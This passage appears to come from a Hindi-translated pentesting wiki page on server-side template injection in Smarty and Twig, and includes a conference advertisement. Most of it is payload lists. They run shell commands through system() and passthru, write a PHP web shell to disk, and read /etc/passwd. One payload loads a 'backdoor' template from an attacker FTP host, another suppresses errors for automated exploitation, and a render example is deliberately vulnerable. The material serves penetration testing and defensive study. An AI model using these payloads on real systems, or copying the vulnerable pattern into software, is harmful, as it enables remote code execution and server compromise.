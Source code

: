 
* अधिक जानकारी के लिए [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबरसुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबरसुरक्षा पेशेवरों के लिए एक उष्णकटिबंधीय बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

##

### Smarty (PHP)
```php
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
**अधिक जानकारी**

* Smarty अनुभाग में [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig (PHP)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Error`
* `{{foobar}} Nothing`
```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```
**Twig - टेम्पलेट प्रारूप**
```php
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
```